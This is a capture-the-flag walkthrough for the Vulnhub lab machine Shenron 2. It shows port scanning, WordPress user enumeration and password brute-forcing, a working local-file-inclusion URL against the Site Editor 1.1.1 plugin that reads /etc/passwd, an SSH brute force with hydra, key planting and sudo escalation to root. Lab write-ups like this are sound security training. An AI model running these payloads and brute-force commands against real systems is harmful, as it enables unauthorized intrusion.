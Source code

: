 ```yaml
---
title: "Shenron 2 Vulnhub CTF Walkthrough"
description: "Shenron 2 Vulnhub CTF Walkthrough"
---
```



nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shenron-2]
└─$ sudo nmap -p- -sV 192.168.56.158    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-07 16:50 EDT
Nmap scan report for 192.168.56.158
Host is up (0.00073s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
{% endhighlight %}

After checking both port 80 an 8080 in the browser. 8080 shows a wordpress instance. 


wpscan user enumeration:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shenron-2]
└─$ wpscan --url http://shenron:8080/ -e u 

[i] User(s) Identified:

[+] admin
{% endhighlight %}


wpscan brute forcing login: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shenron-2]
└─$ wpscan --url http://shenron:8080/ -U admin -P /usr/share/wordlists/rockyou.txt 

[!] Valid Combinations Found:
 | Username: admin, Password: admin
{% endhighlight %}

Lesson learned here: Try default creds before firing up a bruteforcing tool...
Browsing the WordPress installation showed me no means of uploading a reverse shell 
to the installation. 

enumerating the plugins reveals Site Editor version 1.1.1, which is vulnerable to LFI
PoC: https://www.exploit-db.com/exploits/44340

from the PoC we can navigate to the following URL that reads the etc/passwd file:
http://shenron:8080//wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd 

This gives us the following users: 

root
shenron
jenny

Let's use the user list with hydra and try to brute force ssh. 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shenron-2]
└─$ hydra -L users.txt -P users.txt ssh://shenron
[22][ssh] host: shenron   login: jenny   password: jenny
{% endhighlight %}

Logging in over SSH:
{% highlight terminal %}
jenny@shenron-2:~$ 
{% endhighlight %}

Setting up SSH keys for the user shenron:

{% highlight terminal %}
bash-5.0$ mkdir .ssh
bash-5.0$ cd .ssh/
bash-5.0$ ls
bash-5.0$ vim authorized_keys
vim        vim.basic  vimdiff    vim.tiny   vimtutor   
bash-5.0$ vim authorized_keys
bash-5.0$ chmod 600 authorized_keys 
bash-5.0$ ssh
ssh               ssh-argv0         ssh-import-id     ssh-keygen
ssh-add           ssh-copy-id       ssh-import-id-gh  ssh-keyscan
ssh-agent         sshd              ssh-import-id-lp  
bash-5.0$ ls -a
.  ..  authorized_keys
bash-5.0$ cd ../
bash-5.0$ ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos  wordpress
bash-5.0$ chmod go-rwx .ssh/
bash-5.0$ ls -asl .ssh/
total 12
4 drwx------  2 shenron jenny   4096 Apr  8 05:43 .
4 drwxr-xr-x 17 shenron shenron 4096 Apr  8 05:42 ..
4 -rw-------  1 shenron jenny    563 Apr  8 05:43 authorized_keys
bash-5.0$
{% endhighlight %}

Logging in over ssh and getting root: 

{% highlight terminal %}
shenron@shenron-2:~/Desktop$ ls -a
.  ..  local.txt  .pass
shenron@shenron-2:~/Desktop$ cat .pass 
KNUEK3SSN5HFG2CFNZJG6TSTNBCW4UTPJZJWQRLOKJXU4U3IIVXFE32OIBJWQRLOKJXU4I2TNBCW4UTPJZIGCU3TK5XVEZAK
shenron@shenron-2:~/Desktop$ echo "KNUEK3SSN5HFG2CFNZJG6TSTNBCW4UTPJZJWQRLOKJXU4U3IIVXFE32OIBJWQRLOKJXU4I2TNBCW4UTPJZIGCU3TK5XVEZAK" | base
base32    base64    basename  
shenron@shenron-2:~/Desktop$ echo "KNUEK3SSN5HFG2CFNZJG6TSTNBCW4UTPJZJWQRLOKJXU4U3IIVXFE32OIBJWQRLOKJXU4I2TNBCW4UTPJZIGCU3TK5XVEZAK" | base32 -d
ShEnRoNShEnRoNShEnRoNShEnRoNShEnRoN@ShEnRoN#ShEnRoNPaSsWoRd
shenron@shenron-2:~/Desktop$ sudo -l
[sudo] password for shenron: 
Matching Defaults entries for shenron on shenron-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shenron may run the following commands on shenron-2:
    (ALL : ALL) ALL
shenron@shenron-2:~/Desktop$ sudo -i
root@shenron-2:~#

root@shenron-2:~# cat root.txt 
                                                               
  mmmm  #                                                 mmmm 
 #"   " # mm    mmm   m mm    m mm   mmm   m mm          "   "#
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #             m"
     "# #   #  #""""  #   #   #     #   #  #   #   """     m"  
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         m#mmmm
                                                               
Your Root Flag Is Here :- a89604e285437f789ff278d2239aea02

root@shenron-2:~# 
{% endhighlight %}
